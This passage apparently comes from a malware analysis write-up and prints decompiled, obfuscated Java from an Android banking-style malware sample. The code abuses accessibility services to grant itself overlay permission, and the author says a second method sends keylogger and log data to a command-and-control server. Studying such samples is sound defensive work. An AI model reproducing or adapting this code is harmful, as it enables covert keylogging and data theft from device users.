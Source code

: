 ```java
                                    ccb253bd62.fc4c3d8225e99fa54f8f.performViewClick(findViewByContainsID4);
                                } else {
                                    cb6c6c27fc cb6c6c27fcVar6 = ccb253bd62.fc4c3d8225e99fa54f8f;
                                    cb6c6c27fcVar6.performViewClick(cb6c6c27fcVar6.findTextOnView(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-14, -109, -68, 68, 5, 93, 98, 63, -109, Byte.MAX_VALUE, -118, 59, 106, -72, 34, 12, -102, -126, 76, 123, 66, -58, 22, -33, 46, 25, 116, -8, -66, -99, -109, 35})));
                                }
                            }
                        } else if (ccb253bd62.fc83e31617595b8d5bf6.equals("overlay")) {
                            if (cc90dbdde3.m0f3c12b05dcc6f84()) {
                                ccb253bd62Var2.finished();
                            } else {
                                ccb253bd62Var2.waitForLoading();
                                if (charSequence.contains("OverlaySettings")) {
                                    AccessibilityNodeInfo findTextOnViewStart = ccb253bd62.fc4c3d8225e99fa54f8f.findTextOnViewStart(c5412e90f0.me80d4904704c5f98(), true);
                                    if (findTextOnViewStart != null) {
                                        List<AccessibilityNodeInfo> findViewsById2 = ccb253bd62.fc4c3d8225e99fa54f8f.findViewsById(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-7, 111, -51, 45, -89, 11, -35, -53, -66, 58, -51, 108, 107, 68, 74, -75, 16, -15, 111, -76, 104, 6, 33, -120, -28, -118, 74, -78, 56, 12, -121, 96}));
                                        if (findViewsById2 != null) {
                                            for (AccessibilityNodeInfo accessibilityNodeInfo : findViewsById2) {
                                                if (!accessibilityNodeInfo.isChecked()) {
                                                    ccb253bd62.fc4c3d8225e99fa54f8f.performViewClick(accessibilityNodeInfo);
                                                }
                                            }
                                        }
                                        ccb253bd62.fc4c3d8225e99fa54f8f.performViewClick(findTextOnViewStart);
                                        ccb253bd62Var2.OverlaySubSettings();
                                    }
                                } else if (charSequence.contains("PermissionAppsActivity")) {
                                    ccb253bd62Var2.OverlaySubSettings();
                                } else if (charSequence.contains("SubSettings")) {
                                    ccb253bd62Var2.OverlaySubSettings();
                                }
                            }
[TRUNCATED]
```

### Logging and Keylogging Exfil Class `C0047c409757303`

This code block grabs log info and keylogger details from the database created locally on the device by the malware and sends it to the remote C2 server. 

```java
public static void m9c90331011a3caa6(HashMap hashMap) {
        final String m8866bfd4fc9738b7;
        if (hashMap == null) {
            return;
        }
        final String ma93efdbbced5be26 = caf5aa5dc1.ma93efdbbced5be26(new byte[]{-126, 120, -127, 15, -119, -62, 29, 83, -121, -30, -109, -92, -112, 13, -117, -119});
        if (hashMap.containsKey("type")) {
            ma93efdbbced5be26 = String.valueOf(hashMap.get(caf5aa5dc1.ma93efdbbced5be26(new byte[]{59, -93, 110, 5, Byte.MAX_VALUE, 95, -78, 39, -116, 84, 38, -32, 10, -94, -31, 5})));
        }
```